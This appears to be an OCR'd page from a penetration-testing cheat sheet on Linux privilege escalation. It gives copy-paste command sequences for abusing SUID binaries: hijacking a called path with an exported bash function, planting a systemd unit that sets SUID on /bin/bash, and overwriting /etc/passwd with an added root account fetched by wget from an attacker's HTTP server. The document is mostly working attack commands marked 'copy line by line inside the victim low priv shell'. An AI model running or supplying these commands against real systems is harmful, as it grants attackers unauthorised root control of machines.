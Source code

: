 Privilege Escalation

```
Find the SUID Binary

find / -perm -u=s -type f 2>/dev/null | xargs ls -l
Output Example: /bin/tools/webserver-status
ls -la /bin/tools/webserver-status

Test the SUID Binary 

/bin/tools/webserver-status
strings /bin/tools/webserver-status
Output Example: /usr/sbin/service apache2 status

Absue the SUID Binary

fucntion /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
/bin/tools/webserver-status
id && whoami
```

Example 5 (/bin/systemctl)

Privilege Escalation

Copy line by line inside the victim low priv shell
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
/bin/bash -p
id && whoami
```

Example 5 (Copy - /bin/cp)

Privilege Escalation

Victim
```
find / -perm -u=s -type f 2>/dev/null | xargs ls -l
Copy the contents of /etc/passwd to your local machine inside a new file called "passwd"
```
Attacker
```
Run the following command locally: openssl passwd -1 -salt ignite NewRootPassword
Copy the output
Add the following inside the local passwd file
echo "root2:<output>:0:0:root:/root:/bin/bash" >> passwd // Replace <output> with the copied output
python -m SimpleHTTPServer 9000
```
Victim
```
wget -O /tmp/passwd http://10.10.10.10:9000/passwd
cp /tmp/passwd /etc/passwd
su root2
Password: NewRootPassword
id && whoami

// Replace Attacker IP & Port
```